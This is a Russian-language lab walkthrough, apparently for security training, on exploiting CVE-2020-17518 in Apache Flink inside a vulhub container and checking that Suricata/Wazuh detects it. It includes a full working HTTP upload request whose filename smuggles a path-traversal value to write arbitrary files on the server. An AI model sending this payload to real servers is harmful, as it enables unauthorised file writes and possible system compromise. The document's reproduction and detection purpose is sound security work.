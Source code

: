 # CVE-2020-17518

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-17518](https://nvd.nist.gov/vuln/detail/CVE-2020-17518)
* [https://www.opencve.io/cve/CVE-2020-17518](https://www.opencve.io/cve/CVE-2020-17518)
* [https://www.programmersought.com/article/236511184567/](https://www.programmersought.com/article/236511184567/)

Apache Flink - это фреймворк для обработки потоков с открытым исходным кодом, обладающий мощными возможностями потоковой и пакетной обработки.

В Apache Flink 1.5.1 появился REST-обработчик, позволяющий записать загруженный файл в произвольное место локальной файловой системы через злонамеренно измененный HTTP HEADER.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/flink/CVE-2020-17518

Для запуска узявимой среды выполните команду

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8081 будет доступна домашняя страница Apache Flink

<figure><img src="../../.gitbook/assets/cve-2020-17518(1).png" alt=""><figcaption></figcaption></figure>

Для эксплуатации уязвимости отправьте соответствующий POST-запрос:

```
POST /jars/upload HTTP/1.1
Host: ваш-ip:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

<figure><img src="../../.gitbook/assets/cve-2020-17518(2).png" alt=""><figcaption></figcaption></figure>

После его отправки будет на машине будет создан файл /tmp/success

<figure><img src="../../.gitbook/assets/cve-2020-17518(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть, что Suricata детектирует действия как эксплуатацию CVE-2021-1499

<figure><img src="../../.gitbook/assets/cve-2020-17518(4).png" alt=""><figcaption></figcaption></figure>
